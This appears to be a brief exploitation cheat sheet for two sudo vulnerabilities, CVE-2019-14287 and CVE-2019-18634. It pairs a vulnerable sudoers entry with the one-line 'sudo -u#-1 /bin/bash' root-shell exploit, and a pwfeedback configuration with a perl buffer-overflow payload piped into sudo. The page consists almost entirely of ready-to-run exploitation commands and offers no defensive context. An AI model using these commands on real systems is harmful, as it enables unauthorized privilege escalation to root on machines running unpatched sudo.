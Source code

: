 **CVE-2019-14287**
```sh
(ALL, !root) NOPASSWD: /bin/bash
```

Exploitation
```
sudo -u#-1 /bin/bash
```


**CVE-2019-18634**

```sh
cat /etc/sudoers

Defaults env_reset,pwfeedback
```

```sh
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
```